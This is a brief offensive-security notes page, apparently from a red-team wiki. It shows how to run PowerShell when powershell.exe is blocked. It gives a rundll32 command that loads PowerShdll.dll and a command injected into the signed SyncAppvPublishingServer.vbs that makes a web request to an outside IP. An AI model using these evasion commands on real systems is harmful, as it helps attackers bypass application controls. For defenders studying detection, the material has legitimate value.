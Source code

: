# Powershell Without Powershell.exe

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## PowerShdll

```
rundll32.exe PowerShdll.dll,main
```

![](../../.gitbook/assets/pwshll-rundll32.gif)

Note that the same could be achieved with a compiled .exe binary from the same project, but keep in mind that .exe is more likely to run into whitelisting issues.

## SyncAppvPublishingServer

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

![](../../.gitbook/assets/pwshll-syncappvpublishingserver.png)

![](../../.gitbook/assets/pwshll-syncappvpublishingserver.gif)

## References

{% embed url="https://github.com/p3nt4/PowerShdll" %}

{% embed url="https://web.archive.org/web/20180202001408/https://safe-cyberdefense.com/malware-can-use-powershell-without-powershell-exe/" %}

{% embed url="https://www.youtube.com/watch?v=7tvfb9poTKg" %}
